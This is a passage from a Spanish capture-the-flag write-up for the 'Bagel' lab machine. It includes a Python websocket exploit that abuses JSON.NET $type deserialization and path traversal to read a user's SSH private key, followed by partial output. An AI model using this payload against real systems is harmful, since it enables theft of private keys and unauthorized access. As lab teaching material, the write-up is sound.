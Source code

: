 ```cs
}
```
En este mismo dll nos encontramos unas credenciales del usuario dev.

![imagen5](/assets/images/Bagel/bagel5.png)

Para abusar de está vulnerabilidad creamos un scrypt en python donde nos conectemos al websocker y mandamos una orden con un valor especial con $type para que podamos indicar el objeto que queremos usar que en este caso es file, ahí vamos a usar la función ReadFile para intentar leer archivos del sistema. En específico la clave id_rsa del usuario phil que pudimos verlo en el /etc/passwd.

```python
#!/usr/bin/python3

import websocket, json

ws = websocket.WebSocket()

ws.connect("ws://10.129.228.247:5000/")

order =  { "RemoveOrder" : {"$type":"bagel_server.File, bagel", "ReadFile":"../../../../../../home/phil/.ssh/id_rsa"}}
data = str(json.dumps(order))

ws.send(data)

result = ws.recv()
print(result)
```
```shell
❯ sudo python3 procs/exploit.py
{
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "6:54:19",
  "RemoveOrder": {
    "$type": "bagel_server.File, bagel",
```